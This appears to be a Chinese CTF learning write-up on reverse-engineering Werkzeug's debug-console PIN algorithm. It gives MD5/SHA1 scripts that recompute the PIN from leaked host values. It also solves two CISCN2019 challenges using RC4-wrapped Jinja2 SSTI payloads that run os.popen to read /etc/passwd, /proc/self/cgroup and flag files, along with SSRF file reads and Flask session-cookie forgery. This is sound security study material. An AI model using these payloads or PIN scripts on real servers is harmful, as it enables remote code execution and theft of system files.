

0x01 PIN是什么
以下的一切硬性知识基本都是照搬的（因为自己还很菜，且也未尝试去自己总结）故此，就以理解别人文章为准则了，还请见谅~
PIN是 Werkzeug（它是 Flask 的依赖项之一）提供的额外安全措施，以防止在不知道 PIN 的情况下访问调试器。 您可以使用浏览器中的调试器引脚来启动交互式调试器。
请注意，无论如何，您都不应该在生产环境中使用调试模式，因为错误的堆栈跟踪可能会揭示代码的多个方面。
调试器 PIN 只是一个附加的安全层，以防您无意中在生产应用程序中打开调试模式，从而使攻击者难以访问调试器。
——来自StackOverFlow回答
werkzeug不同版本以及python不同版本都会影响PIN码的生成
但是PIN码并不是随机生成，当我们重复运行同一程序时，生成的PIN一样，PIN码生成满足一定的生成算法
0x02 探寻PIN码生成算法
先写一个简单的Flask测试程序
from flask import Flask
app = Flask(__name__)
@app.route("/")
def hello():
return 'hybcx\'blog'
if __name__ == "__main__":
app.run(host="0.0.0.0", port=8080, debug=True)运行之后，结果如下
访问发现搭建成功
接下来开始调试程序，顺藤摸瓜找到生成PIN码的函数
PIN码是werkzeug的策略，先找到flask中导入werkzeug的部分
2.1 调试
在run.app行下断点，点击调试

点击步入

转到了flask/app.py，直接Ctrl+F搜索werkzeug
发现程序从werkzeug导入了run_simple模块，而且try部分有run app的参数
我们直接按住ctrl点击run_simple进去看看
此时进入了seving.py，找到了负责Debug的部分，PIN码是在debug状态下才有的，那这个部分很有可能存有PIN码生成部分，进去看看
进入debuggedapplication
此时进入了__init__.py，经过一番审计，先来看一看pin函数
@property 就是负责把一个方法变成属性调用，方便定义属性的 get 和 set 方法。可以看到调用了 get_pin_and_name() 对 PIN 进行赋值，进去看看，这里将函数截取了下来
def get_pin_and_cookie_name(
app: WSGIApplication,
) -> tuple[str, str] | tuple[None, None]:
"""Given an application object this returns a semi-stable 9 digit pin
code and a random key. The hope is that this is stable between
restarts to not make debugging particularly frustrating. If the pin
was forcefully disabled this returns `None`.
Second item in the resulting tuple is the cookie name for remembering.
"""
# 根据环境变量检查PIN是否为off(即被禁用)
pin = os.environ.get("WERKZEUG_DEBUG_PIN")
rv = None
num = None
# Pin was explicitly disabled
if pin == "off":
return None, None
# Pin was provided explicitly
#如果PIN设置为没有分隔符（如破折号“-”）的数字值，则将其用作PIN。如果存在分隔符，则直接使用PIN。否则，使用提供的PIN的修改版本。
if pin is not None and pin.replace("-", "").isdecimal():
# If there are separators in the pin, return it directly
if "-" in pin:
rv = pin
else:
num = pin
#获取有关WSGI应用程序模块（app）和当前用户的信息。
modname = getattr(app, "__module__", t.cast(object, app).__class__.__module__)
username: str | None
try:
# getuser imports the pwd module, which does not exist in Google
# App Engine. It may also raise a KeyError if the UID does not
# have a username, such as in Docker.
#使用getpass.getuser()获取用户信息。此信息用于使Cookie在计算机上唯一
username = getpass.getuser()
except (ImportError, KeyError):
username = None
mod = sys.modules.get(modname)
# This information only exists to make the cookie unique on the
# computer, not as a security feature.
probably_public_bits = [
username,
modname,
getattr(app, "__name__", type(app).__name__),
getattr(mod, "__file__", None),
]
# This information is here to make it harder for an attacker to
# guess the cookie name. They are unlikely to be contained anywhere
# within the unauthenticated debug page.
private_bits = [str(uuid.getnode()), get_machine_id()]
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode("utf-8")
h.update(bit)
h.update(b"cookiesalt")
#基于各种信息（包括用户名、模块名、应用程序名和模块文件），创建一个SHA-1哈希。此哈希用于生成以“__wzd”开头的唯一Cookie名称。
cookie_name = f"__wzd{h.hexdigest()[:20]}"
# If we need to generate a pin we salt it a bit more so that we don't
# end up with the same value and generate out 9 digits
#如果未显式提供PIN，它通过对一些信息进行哈希并将其转换为9位数字字符串来生成PIN。这样做是为了确保PIN在重新启动时相对稳定。
if num is None:
h.update(b"pinsalt")
num = f"{int(h.hexdigest(), 16):09d}"[:9]
# Format the pincode in groups of digits for easier remembering if
# we don't have a result yet.
#将PIN格式化为数字组（5、4和3位数字），以便用户更容易记住。然后返回格式化的PIN和生成的Cookie名称。
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = "-".join(
num[x : x + group_size].rjust(group_size, "0")
for x in range(0, len(num), group_size)
)
break
else:
rv = num
return rv, cookie_name返回的rv就是PIN码，但这个函数核心是将列表里的值hash，我们不需要去读懂这段代码，只需要将列表里的值填上直接运行代码就行。
虽然这位笔者告知我们不需要读懂，但求知心切的我决定跟着GPT过一遍
2.2 生成要素：
username
通过getpass.getuser()读取，通过文件读取`/etc/passwd`-- 启动这个flask的用户
modname
通过getattr(mod,"__file__",None)读取，默认值为flask.app
appname
通过getattr(app,"__name__",type(app).__name__)读取，默认值为Flask
或
通过getattr(app, "__name__", app.__class__.__name__)读取
moddir
当前网络的mac地址的十进制数，通过getattr(mod,"__file__",None)读取实际应用中通过报错读取
uuidnode
通过uuid.getnode()读取，通过文件`/sys/class/net/eth0/address`得到16进制结果，转化为10进制进行计算
machine_id
每一个机器都会有自已唯一的id，machine_id由三个合并(docker就后两个)：
1./etc/machine-id
2./proc/sys/kernel/random/boot_id
3./proc/self/cgroup当这6个值我们可以获取到时，就可以推算出生成的PIN码
到这儿参数的来历都清楚了，做个总结
probably_public_bits = [
username 运行当前程序的用户名
modname 当前对象的模块名，默认为flask.app
getattr(app, "__name__", app.__class__.__name__) 当前对象的名称，默认为Flask
getattr(mod, "__file__", None) flask包内的app.py的绝对路径
]
private_bits = [
str(uuid.getnode()) Mac地址的整型，通过int(Mac, 16)可以获取
get_machine_id() [
docker /proc/self/cgroup，正则分割
Linux /etc/machine-id，/proc/sys/kernl/random/boot_id，前者固定后者不固定
macOS ioreg -c IOPlatformExpertDevice -d 2中"serial-number" = <{ID}部分
Windows 注册表HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Cryptography/MachineGuid
]
]2.3 PIN生成算法
然后这里还有一个点，python不同版本的算法区别，3.6采用MD5加密，3.8采用sha1加密，所以脚本有所不同
sha1计算
#sha1
import hashlib
from itertools import chain
probably_public_bits = [
'root'# /etc/passwd
'flask.app',# 默认值
'Flask',# 默认值
'/usr/local/lib/python3.8/site-packages/flask/app.py' # 报错得到
]
private_bits = [
'2485377581187',# /sys/class/net/eth0/address 16进制转10进制
#machine_id由三个合并(docker就后两个)：1./etc/machine-id 2./proc/sys/kernel/random/boot_id 3./proc/self/cgroup
'653dc458-4634-42b1-9a7a-b22a082e1fce55d22089f5fa429839d25dcea4675fb930c111da3bb774a6ab7349428589aefd'# /proc/self/cgroup
]
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
cookie_name = '__wzd' + h.hexdigest()[:20]
num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]
rv =None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num
print(rv)MD5计算
#MD5
import hashlib
from itertools import chain
probably_public_bits = [
'flaskweb'# username
'flask.app',# modname
'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.7/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]
private_bits = [
'25214234362297',# str(uuid.getnode()), /sys/class/net/eth0/address
'0402a7ff83cc48b41b227763d03b386cb5040585c82f3b99aa3ad120ae69ebaa'# get_machine_id(), /etc/machine-id
]
h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
cookie_name = '__wzd' + h.hexdigest()[:20]
num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]
rv =None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num
print(rv)其实最稳妥的方法就是自己调试，把自己版本的生成PIN部分提取出来，把num和rv改成None，直接print rv就行
0x03 PIN码获取
3.1 Linux下PIN码获取
还是用上面流程分析的代码，在 linux 中运行。
uaername 可以从 /etc/passwd 中读取。这里是 root 用户启动的，所以值为 root，不知道哪个用户启动的，可以按照 /etc/passwd
里的用户多尝试一下。
getattr(mod, '__file__', None) flask 目录下的一个 app.py 的绝对路径,这个值可以在报错页面看到。但有个需注意，python3 是 app.py，python2 中是 app.pyc。这里值为 /usr/local/lib/python2.7/dist-packages/flask/app.pyc
但是如何才能产生报错，似乎没人讲啊。。。。
str(uuid.getnode()) MAC地址 读取这两个地址：/sys/class/net/eth0/address 或者 /sys/class/net/ens33/address

转化为10进制，这里值为52235878851
get_machine_id() 系统id 。
我们进入get_machine_id()，从代码中可以得知这里对linux、macos、window的3种系统的获取方法。
def get_machine_id():
global _machine_id
if _machine_id is not None:
return _machine_id
def _generate():
linux = b""
# machine-id is stable across boots, boot_id is not.
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except IOError:
continue
if value:
linux += value
break
# Containers share the same machine id, add some cgroup
# information. This is used outside containers too but should be
# relatively stable across boots.
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except IOError:
pass
if linux:
return linux
# On OS X, use ioreg to get the computer's serial number.
try:
# subprocess may not be available, e.g. Google App Engine
# https://github.com/pallets/werkzeug/issues/925
from subprocess import Popen, PIPE
dump = Popen(
["ioreg", "-c", "IOPlatformExpertDevice", "-d", "2"], stdout=PIPE
).communicate()[0]
match = re.search(b'"serial-number" = <([^>]+)', dump)
if match is not None:
return match.group(1)
except (OSError, ImportError):
pass
# On Windows, use winreg to get the machine guid.
try:
import winreg as wr
except ImportError:
try:
import _winreg as wr
except ImportError:
wr = None
if wr is not None:
try:
with wr.OpenKey(
wr.HKEY_LOCAL_MACHINE,
"SOFTWARE\\Microsoft\\Cryptography",
0,
wr.KEY_READ | wr.KEY_WOW64_64KEY,
) as rk:
guid, guid_type = wr.QueryValueEx(rk, "MachineGuid")
if guid_type == wr.REG_SZ:
return guid.encode("utf-8")
return guid
except WindowsError:
pass
_machine_id = _generate()
return _machine_id只要从 /etc/machine-id、/proc/sys/kernel/random/boot_id 中读到一个值后立即 break，然后和/proc/self/cgroup 中的id值拼接

2020.1.5对 machine_id() 进行了更新 ，所以2020.1.5之前的版本是跟这里不同的，具体更新情况可看
https://github.com/pallets/werkzeug/commit/617309a7c317ae1ade428de48f5bc4a906c2950f
2020.1.5修改前是：
是依序读取 /proc/self/cgroup、/etc/machine-id、/proc/sys/kernel/random/boot_id 三个文件，只要读取到一个文件的内容，
立马返回值。

这里 /etc/machine-id 为 75d03aa852be476cbe73544c93e98276 ，`` 只读取第一行，并以从右边算起的第一
个‘/’为分隔符，分成两部分，取右边那部分，这里为空，所以这里 get_machine_id() 的值为
75d03aa852be476cbe73544c93e98276。

现在已经知道所有变量的值，可以就用 get_pin_and_cookie_name 的部分代码生成PIN码。
import hashlib
from itertools import chain
probably_public_bits = [
'root'# username
'flask.app',# modname
'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python2.7/dist-packages/flask/app.pyc' # getattr(mod, '__file__', None),
]
private_bits = [
'52228526895',# str(uuid.getnode()), /sys/class/net/ens33/address
'75d03aa852be476cbe73544c93e98276'# get_machine_id(), /etc/machine-id
]
h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
cookie_name = '__wzd' + h.hexdigest()[:20]
num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]
rv =None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num
print(rv)最后生成的 PIN 码为638-233-100，输入后即可看到一个 shell 的交互界面
3.2 Windows下PIN码获取
uaername 可以从net user命令查看，这里值为 Administrator
getattr(mod, '__file__', None) flask 目录下的一个 app.py 的绝对路径,这个值可以在报错页面看到。但有个需注意，python3
是 app.py，python2 中是 app.pyc。这里值为G:\code\venv\flaskProject2\lib\site-packages\flask\app.pyc

str(uuid.getnode()) MAC 地址 ipconfig /all

转化为10进制，这里值为123360440651610

get_machine_id() 系统 id 。

打开注册表查看\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Cryptography的 MachineGuid 值

也可以用 reg 命令行查询
reg query HKLM\SOFTWARE\Microsoft\Cryptography
这里值为178b0ab8-5a99-4c8e-828d-efc7a40b7f08，最后用上面的脚本生成PIN，结果尝试了一下是错了。
重新调试了一下脚本，发现 str(uuid.getnode()) 的MAC地址不对，本机上有多个网卡，所以有多个 MAC 地址，以为是
uuid.getnode() 获取的是当前正在的网卡的MAC地址。看了一下 uuid.getnode() 的底层实现源码，才知道，它是执行了
ipconfig /all,根据返回的结果，逐行地去正则匹配 MAC 地址，第一个匹配成功就返回。

所以他这里第一个返回的MAC地址为7C-B2-7D-23-D7-E5，转化为十进制后为137106045523941，最后生成的PIN码为296-090-416
3.3 总结
pin码需要六个参数
1. 运行当前程序的用户名，可以通过/etc/passwd尝试
2. 对象app的__module__属性，没有则从类中取，默认为flask.app
3. 对象app的__name__属性，没有则从类中取，默认为Flask
4. flask包中的app文件绝对路径，python2为pyc，默认为/usr/local/lib/python{版本号}/site-packages/flask/app.py
5. Mac地址的整型
6. 机器ID
docker /proc/self/cgroup，正则分割
Linux /etc/machine-id，/proc/sys/kernl/random/boot_id，前者固定后者不固定
macOS ioreg -c IOPlatformExpertDevice -d 2中"serial-number" = <{ID}部分
Windows 注册表HKEY_LOCAL_MACHINE->SOFTWARE->Microsoft->Cryptography->MachineGuid加密方式
python2绝大部分为md5加密，python3少部分为md5，大部分为sha1加密
机器id读取顺序不同
0.15.5之前
/etc/machine-id`->`/proc/sys/kernel/random/boot_id`->`ioreg -c IOPlatformExpertDevice -d 2`->`HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Cryptography/MachineGuid0.15.5-0.16.0
/proc/self/cgroup`->`/etc/machine-id`->`/proc/sys/kernel/random/boot_id`->`ioreg -c IOPlatformExpertDevice -d 2`->`HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Cryptography/MachineGuid/proc/self/cgroup需要用正则value.strip().partition("/docker/")[2]分割
0.16.0之后
/etc/machine-id`->`/proc/sys/kernel/random/boot_id`->`/proc/self/cgroup`->`ioreg -c IOPlatformExpertDevice -d 2`->`HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Cryptography/MachineGuid/proc/self/cgroup需要用正则f.readline().strip().rpartition(b"/")[2]分割
0x04 实战例题
[CISCN2019 华东南赛区]Double Secret
本来信心满满的打开题目去练习一番，结果这道题的前期我就懵逼呢，看了wp也是佩服脑洞

访问首页这里说让我们去找Secret，于是尝试直接访问secret路由

这里又告诉我们：让我们告诉他secret，他会加密。于是那些佬不知何种思路，对这secret进行了get传参。。。

这里我胡乱传了一个数值，发现页面报错，这感情好啊，肯定debug开启了

我们想办法读到响应的关键信息计算PIN码即可
我们回顾一下需要读取的内容
1. 运行当前程序的用户名，可以通过/etc/passwd尝试
2. 对象app的__module__属性，没有则从类中取，默认为flask.app
3. 对象app的__name__属性，没有则从类中取，默认为Flask
4. flask包中的app文件绝对路径，python2为pyc，默认为/usr/local/lib/python{版本号}/site-packages/flask/app.py
5. Mac地址的整型
6. 机器ID
docker /proc/self/cgroup，正则分割
Linux /etc/machine-id，/proc/sys/kernl/random/boot_id，前者固定后者不固定
macOS ioreg -c IOPlatformExpertDevice -d 2中"serial-number" = <{ID}部分
Windows 注册表HKEY_LOCAL_MACHINE->SOFTWARE->Microsoft->Cryptography->MachineGuid这里我们根据报错，看一下app目录下的信息
if(secret==None):
return 'Tell me your secret.I will encrypt it so others can\'t see'
rc=rc4_Modified.RC4("HereIsTreasure") #解密
deS=rc.do_crypt(secret)
a=render_template_string(safe(deS))
if 'ciscn' in a.lower():
return 'flag detected!'
return a发现这里将我们传入的secret进行了rc4加密，随后进行了模板注入，这里估计是有ssti漏洞的，随后过滤了ciscn这个关键词
方法一：SSTI注入
这里肯定得知道加密的脚本，这样我们利用该脚本注入我们的恶意代码才会成功执行。这里也是看了wp才得到的RC4加密脚本
import base64
from urllib.parse import quote
def rc4_main(key = "init_key", message = "init_message"):
# print("RC4加密主函数")
s_box = rc4_init_sbox(key)
crypt = str(rc4_excrypt(message, s_box))
return crypt
def rc4_init_sbox(key):
s_box = list(range(256)) # 我这里没管秘钥小于256的情况，小于256不断重复填充即可
# print("原来的 s 盒：%s" % s_box)
j = 0
for i in range(256):
j = (j + s_box[i] + ord(key[i % len(key)])) % 256
s_box[i], s_box[j] = s_box[j], s_box[i]
# print("混乱后的 s 盒：%s"% s_box)
return s_box
def rc4_excrypt(plain, box):
# print("调用加密程序成功。")
res = []
i = j = 0
for s in plain:
i = (i + 1) % 256
j = (j + box[i]) % 256
box[i], box[j] = box[j], box[i]
t = (box[i] + box[j]) % 256
k = box[t]
res.append(chr(ord(s) ^ k))
# print("res用于加密字符串，加密后是：%res" %res)
cipher = "".join(res)
print("加密后的字符串是：%s" %quote(cipher))
#print("加密后的输出(经过编码):")
#print(str(base64.b64encode(cipher.encode('utf-8')), 'utf-8'))
return (str(base64.b64encode(cipher.encode('utf-8')), 'utf-8'))
#需要加密的字符串在这里修改
rc4_main("HereIsTreasure","{{''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read()}}")这里有佬说明：这里是后端对secret传入的值进行了RC4加密，RC4加密方式为，明文加密一次得到密文，密文在加密一次得到明文。所以要使用RC4脚本对我们传入的恶意字符串进行一次加密，这样传给系统，既绕过检测，同时还得到了明文得以执行
不过这道题似乎直接用上述的ssti直接读取flag即可，但我们是来练习PIN码获取的，那我们采用另外的思路，不过这里先走一遍ssti
调用：
rc4_main("HereIsTreasure","{{''.__class__.__mro__[2].__subclasses__()}}")
下标为59的是warnings.catch_warnings，直接利用即可：
rc4_main("HereIsTreasure","{{''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read()}}")
拿到flag
方法二：PIN码计算
有了方法一的思路我们直接照着读取即可
1. 运行当前程序的用户名，可以通过/etc/passwd尝试
2. 对象app的__module__属性，没有则从类中取，默认为flask.app
3. 对象app的__name__属性，没有则从类中取，默认为Flask
4. flask包中的app文件绝对路径，python2为pyc，默认为/usr/local/lib/python{版本号}/site-packages/flask/app.py
5. Mac地址的整型
6. 机器ID
docker /proc/self/cgroup，正则分割
Linux /etc/machine-id，/proc/sys/kernel/random/boot_id，前者固定后者不固定
macOS ioreg -c IOPlatformExpertDevice -d 2中"serial-number" = <{ID}部分
Windows 注册表HKEY_LOCAL_MACHINE->SOFTWARE->Microsoft->Cryptography->MachineGuid先读取/etc/passwd
rc4_main("HereIsTreasure","{{''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('cat /etc/passwd').read()}}")这里猜测是root用户，但由于不确定还是决定看看wp发现他认为username 为 glzjin。。。。不太懂，先往下做看看
flask包中的app文件绝对路径
getattr(mod, '__file__', None) 从报错页面得知为 /usr/local/lib/python2.7/site-packages/flask/app.pyc
Mac地址
rc4_main("HereIsTreasure","{{''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('cat /sys/class/net/eth0/address').read()}}")转换为十进制数为：244583227313717
读取get_machine_id()
对如下字符串进行 RC4 加密，再传入 secret 中
rc4_main("HereIsTreasure","{{''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('cat /proc/self/cgroup').read()}}")
根据读取规则我们从箭头处开始读取
docker-11a33fd98fd85e6543a295bd7e77f5f0a222196211955341ed11298c93ba8db0.scope最后得到了，这里我们看上述的信息也可以发现他是docker启动的服务，根据规则我们只需要读取上面的信息以及/proc/self/cgroup路径下的信息，这里剩下的最后一个路径是空的，大家可以尝试
这里看的那篇文章不够细节，坑了我一手，这里我们在读取第一个路径/proc/self/cgroup的时候，我们对于结果只取第一行，且

将第一行的数据：
'class' is not allowed. Secret is 12:hugetlb:/kubepods.slice/kubepods-burstable.slice/kubepods-burstable-podf1fac0b3_f07f_4e83_ad38_8d4d9f5bb2f5.slice/docker-使用如下正则进行匹配最终结果：
print(value.strip().partition("/docker/")[2])value是我们的原始数据，最后的结果如下，是空的
那我们需要读取/proc/sys/kernel/random/boot_id路径下的内容
最后得到的6个变量的值分别为
username 值为 glzjin
modname 值为 flask.app
getattr(app, '__name__', getattr(app.__class__, '__name__')) 值为 Flask
getattr(mod, '__file__', None)值为/usr/local/lib/python2.7/site-packages/flask/app.pyc
str(uuid.getnode()) 值为244583227313717
get_machine_id() 值为8cab9c97-85be-4fb4-9d17-29335d7b2b8a用如下脚本生成 PIN
#MD5
import hashlib
from itertools import chain
probably_public_bits = [
'glzjin'# username
'flask.app',# modname
'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python2.7/site-packages/flask/app.pyc' # getattr(mod, '__file__', None),
]
private_bits = [
'244583227313717',# str(uuid.getnode()), /sys/class/net/eth0/address
'8cab9c97-85be-4fb4-9d17-29335d7b2b8a'# get_machine_id(), /etc/machine-id
]
h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
cookie_name = '__wzd' + h.hexdigest()[:20]
num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]
rv =None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num
print(rv)至于那个用户是glzjin不太清楚，估计是他们试出来的吧
最后将得到的PIN输入即可进行命令行交互模式，当然也可以访问console路由输入PIN码，如下图成功得到flag
[CISCN2019 华东南赛区]Web4
这道题前期依旧是没思路，刷题太少，还是注重PIN码的练习吧
访问之后发现有个超链接，点击后发现跳转到了百度页面，emmm那就是ssrf读取敏感信息了呗
这里我尝试了file读取/etc/passwd但被ban了，于是没思路了，看了wp发现他有的直接?url=/etc/passwd直接就读到了。。。随后我又尝试：
url=../app/app.py直接读到了源码，不过这里看有的师傅采用另一个姿势local_file:///读取文件（没学过，以后有缘看看）
#encoding: utf - 8
import re, random, uuid, urllib from flask
import Flask, session, request
app = Flask(__name__)
random.seed(uuid.getnode())
app.config['SECRET_KEY'] = str(random.random() * 233)
app.debug = True
@app.route('/')
def index():
session['username'] = 'www-data'
return 'Hello World! Read somethings'@
@app.route('/read')
def read():
try:
url = request.args.get('url')
m = re.findall('^file.*', url, re.IGNORECASE)
n = re.findall('flag', url, re.IGNORECASE)
if m or n:
return 'No Hack'
res = urllib.urlopen(url)
return res.read()
except Exception as ex:
print str(ex) return 'no response'@
@app.route('/flag')
def flag():
if session and session['username'] == 'fuck':
return open('/flag.txt').read()
else :
return 'Access denied'
if __name__ == '__main__':
app.run(debug = True, host = "0.0.0.0")审计一波发现在read路由下，可以进行文件读取，但是不能含有file与flag的关键字。
在flag路由下，如果session变量存在，且其中键名为username的值为fuck，则成功读取到flag，那就是要伪造session了，不过在此之前还需要知道密钥，下面看一下密钥生成方式
random.seed(uuid.getnode())
app.config['SECRET_KEY'] = str(random.random() * 233) 这里我只是清楚他采用的uuid.getnode即Mac地址作为seed种子，借用一下其他师傅的讲述：
对于伪随机数，如果seed是固定的，生成的随机数是可以预测的，也就是顺序固定的，所以只要知道seed的值即可。这里的seed使用的uuid.getnode()的值，该函数用于获取Mac地址并将其转换为整数。
那我们读取一下Mac地址看看?url=../sys/class/net/eth0/address
转为十进制数为：165897528343673，这里看了似乎依旧是两种方法，一种是常规的session伪造，另一种就是PIN码计算，进行命令交互
方法一：session伪造
不过接下来的几步老疑惑了，我看有的师傅是报错看出来的python版本为2.7，但也不知道如何爆出来的，这里我做完在研究
使用Python2得出密钥（Python2和Python3保留的位数不一样）
import random
random.seed(0x96e2073efc79)
print(str(random.random()*233))得到12.221805183
接下来用工具进行session伪造
python3 flask_session_cookie_manager3.py decode -c "eyJ1c2VybmFtZSI6eyIgYiI
6ImQzZDNMV1JoZEdFPSJ9fQ.ZVH0fg.JlHfWUlenH8zN6oP-IQM4l76BjA" -s "12.221805183"
如图成功解密，接下来就是加密了
python3 flask_session_cookie_manager3.py encode -s "12.221805183" -t "{'username': 'fuck'}"如下图，修改session后访问flag即可得到
方法二：PIN码计算
由于我们在上面代码中可以看到其debug开启了，因此我们可以采用PIN码计算的方式来获取flag

如图还是glzjin用户
app路径为：/usr/local/lib/python2.7/site-packages/flask/app.py–不过此处我认为只能猜，因为根据上述代码的编写，我并不清楚如何使其报错，只能当你路径访问正确才可以，不过这里只需要更改2.7即可
这里Mac地址我们已经得到：165897528343673
读取get_machine_id()

老规矩取第一行数据

依旧为空，那只需要读取/proc/sys/kernel/random/boot_id

上脚本计算
#MD5
import hashlib
from itertools import chain
probably_public_bits = [
'glzjin'# username
'flask.app',# modname
'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python2.7/site-packages/flask/app.pyc' # getattr(mod, '__file__', None),
]
private_bits = [
'165897528343673',# str(uuid.getnode()), /sys/class/net/ens33/address
'8cab9c97-85be-4fb4-9d17-29335d7b2b8a'# get_machine_id(), /etc/machine-id
]
h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
cookie_name = '__wzd' + h.hexdigest()[:20]
num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]
rv =None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num
print(rv)
#print(value.strip().partition("/docker/")[2])得到PIN码后访问console路由输入PIN码即可，如下图得到flag
